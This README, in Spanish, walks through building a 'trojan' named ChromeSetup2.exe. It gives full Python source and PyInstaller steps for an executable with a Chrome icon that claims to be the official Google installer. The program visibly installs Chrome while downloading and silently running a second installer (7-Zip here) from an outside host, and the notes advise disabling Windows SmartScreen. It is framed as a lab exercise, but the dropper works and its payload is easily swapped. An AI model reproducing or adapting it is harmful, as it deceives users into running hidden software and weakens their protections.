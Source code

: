 # README - Troyano ChromeSetup2

Este proyecto crea un ejecutable (`ChromeSetup2.exe`) que simula instalar Google Chrome mientras instala 7-Zip en segundo plano.

## Requisitos

- Máquina virtual con Windows 10.
- Python 3.x instalado.
- Librerias: `requests` y `pyinstaller` (`pip install requests pyinstaller`).
- Conexión a internet.

## Pasos

1. **Crear el script**

   - Copia este código en un archivo llamado `trojan.py`:

     ```python
     import os, requests, subprocess, time, sys

     CHROME_URL = "https://dl.google.com/chrome/install/ChromeSetup.exe"
     SEVENZIP_URL = "https://www.7-zip.org/a/7z2301-x64.exe"
     CHROME_PATH = os.path.join(os.getenv("TEMP"), "ChromeSetup.exe")
     SEVENZIP_PATH = os.path.join(os.getenv("TEMP"), "7zipSetup.exe")

     def download_file(url, filename):
         print(f"Preparando la descarga de {os.path.basename(filename)}...")
         response = requests.get(url, stream=True)
         with open(filename, "wb") as file:
             for chunk in response.iter_content(chunk_size=8192):
                 file.write(chunk)
         print(f"Descarga completada.")

     def install_chrome():
         if os.path.exists(CHROME_PATH):
             print("Iniciando la instalación de Google Chrome...")
             subprocess.Popen(CHROME_PATH)
         else:
             print("Error: No se pudo encontrar el instalador de Chrome.")
             sys.exit(1)

     def install_7zip_silently():
         if os.path.exists(SEVENZIP_PATH):
             print("Configurando componentes adicionales...")
             subprocess.Popen([SEVENZIP_PATH, "/S"], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
         else:
             print("Error: No se pudo encontrar el instalador de 7-Zip.")
             sys.exit(1)

     def main():
         print("Bienvenido al Instalador de Google Chrome")
         print("Versión oficial - Descargando desde Google...\n")
         time.sleep(1)
         download_file(CHROME_URL, CHROME_PATH)
         download_file(SEVENZIP_URL, SEVENZIP_PATH)
         install_chrome()
         time.sleep(2)
         install_7zip_silently()
         print("\nLa instalación de Google Chrome ha comenzado.")
         time.sleep(3)

     if __name__ == "__main__":
         main()
     ```

2. **Descargar un ícono**

   - Descarga un ícono de Chrome (`.ico`) y guárdalo como `chrome.ico` en la misma carpeta que `trojan.py`.

3. **Compilar el ejecutable**

   - Abre una terminal en la carpeta de `trojan.py`.
   - Ejecuta:
     ```
     pyinstaller --onefile --icon=chrome.ico --name ChromeSetup2 trojan.py
     ```
   - Encuentra `ChromeSetup2.exe` en la carpeta `dist`.

4. **Probar en la máquina virtual**

   - Copia `ChromeSetup2.exe` a la máquina virtual con Windows 10.
   - Haz doble clic para ejecutarlo.
   - Chrome se instalará visiblemente y 7-Zip se instalará en silencio.

5. **Verificar**
   - Busca "7-Zip" en el menú de inicio para confirmar la instalación.

## Notas

- Solo para uso educativo en un entorno controlado.
- Windows SmartScreen podría bloquearlo; desactívalo temporalmente para pruebas.

---
